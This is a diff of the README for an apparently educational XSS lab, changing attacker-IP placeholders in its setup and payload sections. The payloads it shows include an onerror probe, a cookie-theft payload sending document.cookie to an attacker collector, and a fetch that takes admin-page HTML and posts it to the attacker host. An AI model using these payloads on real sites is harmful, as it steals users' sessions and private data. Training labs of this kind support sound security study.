

Before and after one commit to hipoloco/xsslab, a Markdown page: README.md, 3 parts joined by grey strips. Shown at 85% size. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -51,25 +51,34 @@ Trust boundary:
 
 ## Local Domains
 
+Variables used in this guide:
+
+- `container_machine_ip`: IP of the machine that is running the lab containers
+- `attacker_machine_ip`: IP of the attacker machine
+- `docker_host_gateway_ip`: optional host gateway visible from containers when attacker and lab run on the same host
+
 ### Attacker machine
 
 Add only this mapping:
 
 ```text
-192.168.56.10   cross.fit
+container_machine_ip   cross.fit
 ```
 
 Do not add:
 
 ```text
-192.168.56.10   backend.cross.fit
+container_machine_ip   backend.cross.fit
 ```
 
-### Single-host validation note
+Reason:
 
-During the validation performed in this repository, the collector was tested from the Docker network using `172.28.0.1` as the host gateway. That is only a local convenience for same-host testing.
+- the attacker should resolve `cross.fit`
+- the attacker should not resolve `backend.cross.fit` directly
 
-In the intended two-machine lab, replace `ATTACKER_IP` with the real IP of the attacker machine, for example `192.168.56.20`.
+### Same-host note
+
+If you are validating the lab from a single machine instead of two separate machines, some XSS callbacks may need to target the Docker host gateway instead of a second host. In that case, use a value such as `docker_host_gateway_ip` in the payloads.
 
 ## Configuration
 
@@ -200,20 +275,23 @@ This confirms that the JavaScript executed in the privileged browser session tie
 
 ## Payloads
 
-Replace `ATTACKER_IP` with the attacker machine IP.
+Replace:
+
+- `attacker_machine_ip` with the IP of the attacker machine
+- `docker_host_gateway_ip` only when doing same-host validation
 
 ### Probe request to a manual Python HTTP server
 
 Use this first if you only want to prove code execution against the internal backend:
 
 ```html
-<img src=x onerror="new Image().src='http://ATTACKER_IP:8000/ping'">
+<img src=x onerror="new Image().src='http://attacker_machine_ip:8000/ping'">
 ```
 
 Same-host validation shortcut:
 
 ```html
-<img src=x onerror="new Image().src='http://172.28.0.1:8000/ping'">
+<img src=x onerror="new Image().src='http://docker_host_gateway_ip:8000/ping'">
 ```
 
 Expected on the attacker machine with `python3 -m http.server 8000`:
@@ -238,7 +316,7 @@ Expected:
 ### Cookie theft
 
 ```html
-<img src=x onerror="new Image().src='http://ATTACKER_IP:9000/collect?c='+encodeURIComponent(document.cookie)">
+<img src=x onerror="new Image().src='http://attacker_machine_ip:9000/collect?c='+encodeURIComponent(document.cookie)">
 ```
 
 Expected in vulnerable mode:
@@ -254,7 +332,7 @@ fetch('/admin/messages', { credentials: 'include' })
   .then(r => r.text())
   .then(html => {
     const b64 = btoa(unescape(encodeURIComponent(html)));
-    fetch('http://ATTACKER_IP:9000/internal-html', {
+    fetch('http://attacker_machine_ip:9000/internal-html', {
       method: 'POST',
       mode: 'no-cors',
       headers: { 'Content-Type': 'text/plain' },
````
Also changed, not shown: other parts of README.md (+80 -14 lines).
